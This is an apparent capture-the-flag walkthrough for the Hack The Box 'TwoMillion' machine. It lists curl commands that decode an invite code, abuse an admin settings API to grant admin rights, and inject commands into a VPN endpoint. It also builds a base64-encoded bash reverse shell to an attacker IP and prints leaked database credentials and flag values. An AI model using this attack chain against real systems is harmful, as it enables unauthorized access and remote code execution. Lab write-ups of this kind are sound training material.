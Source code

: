 # TwoMillion

After mapping the website 
on page of login :-
simple login form with error in "User not found" ==> you can bruteforce username
by dirb search 
you will find : http://2million.htb/register
also found js function in invite page
after deobfuscate it 
```
function verifyInviteCode(code) {
    var formData = { "code": code };

    $.ajax({
        type: "POST",
        dataType: "json",
        data: formData,
        url: '/api/v1/invite/verify',
        success: function(response) {
            if (response.status === 200 && response.success === 1 && response.data.message === "Invite code is valid!") {
                localStorage.setItem('inviteCode', code);
                window.location.href = '/register';
            } else {
                alert("Invalid invite code. Please try again.");
            }
        },
        error: function(response) {
            alert("An error occurred. Please try again.");
        }
    });
}

function makeInviteCode() {
    $.ajax({
        type: "POST",
        dataType: "json",
        url: '/api/v1/invite/generate',
        success: function(response) {
            console.log(response);
        },
        error: function(response) {
            console.log(response);
        }
    });
}

```
then go to register page 
http://2million.htb/register

with burpe you will git this reqest 
```
POST /api/v1/user/register HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 81
Origin: http://2million.htb
Connection: close
Referer: http://2million.htb/register
Cookie: PHPSESSID=dro49cpjchla0hbraffbmhqv4v
Upgrade-Insecure-Requests: 1

code=&username=user&email=user%40htb.com&password=user&password_confirmation=user
```
### Curl 
```
curl -sX POST http://2million.htb/api/v1/invite/how/to/generate 
{"0":200,"success":1,"data":{"data":"Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb \/ncv\/i1\/vaivgr\/trarengr","enctype":"ROT13"},"hint":"Data is encrypted ... We should probbably check the encryption type in order to decrypt it..."}
```

you got a ROT13-decoded message says : In order to generate the invite code, make a POST request to /api/v1/invite/generate
```
curl -sX POST http://2million.htb/api/v1/invite/generate
{"0":200,"success":1,"data":{"code":"N1ZQVDQtSTRGTTQtTjNRM0stMktJOUc=","format":"encoded"}}  
```

it is base64 decoded invitation code  => `echo N1ZQVDQtSTRGTTQtTjNRM0stMktJOUc= | base64 -d` => `7VPT4-I4FM4-N3Q3K-2KI9G` 

Use the invitation code to register an account

`code=7VPT4-I4FM4-N3Q3K-2KI9G&username=user&email=user%40htb.com&password=user&password_confirmation=user`

GET the `PHPSESSID` from your browser => `0u8rjqr7pid9s7m2eaoavcjecu`
```
curl -sv 2million.htb/api --cookie "PHPSESSID=0u8rjqr7pid9s7m2eaoavcjecu" | jq
```


* Connection #0 to host 2million.htb left intact
{
  "/api/v1": "Version 1 of the API"
}
```
curl http://2million.htb/api/v1 --cookie "PHPSESSID=0u8rjqr7pid9s7m2eaoavcjecu" | jq 

{
  "v1": {
    "user": {
      "GET": {
        "/api/v1": "Route List",
        "/api/v1/invite/how/to/generate": "Instructions on invite code generation",
        "/api/v1/invite/generate": "Generate invite code",
        "/api/v1/invite/verify": "Verify invite code",
        "/api/v1/user/auth": "Check if user is authenticated",
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
        "/api/v1/user/vpn/download": "Download OVPN file"
      },
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}
```

You find all V1 data

```
curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=0u8rjqr7pid9s7m2eaoavcjecu" --header "Content-Type: application/json" | jq

{
  "status": "danger",
  "message": "Missing parameter: email"
}
```
```
curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=0u8rjqr7pid9s7m2eaoavcjecu" --header "Content-Type: application/json" --data '{"email":"user@htb.com"}' | jq

{
  "status": "danger",
  "message": "Missing parameter: is_admin"
}
```
```
curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=0u8rjqr7pid9s7m2eaoavcjecu" --header "Content-Type: application/json" --data '{"email":"user@htb.com", "is_admin": '1'}' | jq 

{
  "id": 13,
  "username": "user",
  "is_admin": 1
}
```

if you now try `curl http://2million.htb/api/v1/admin/auth --cookie "PHPSESSID=0u8rjqr7pid9s7m2eaoavcjecu" | jq`

```
curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=0u8rjqr7pid9s7m2eaoavcjecu" --header "Content-Type: application/json" --data '{"username":"user"}'  
```
```
curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=0u8rjqr7pid9s7m2eaoavcjecu" --header "Content-Type: application/json" --data '{"username":"user;id;"}'  
```

`echo -n "bash -i >& /dev/tcp/10.10.14.48/1234 0>&1" | base64`

YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40OC8xMjM0IDA+JjE=

DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123

We find **admin password **
ssh to admin with the password

user flag => a2624f25c7983f33de70b88f7b290710

in /var/mail/admin

From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather

root.txt => f3f590b486fa536eb258bc4abf59e107
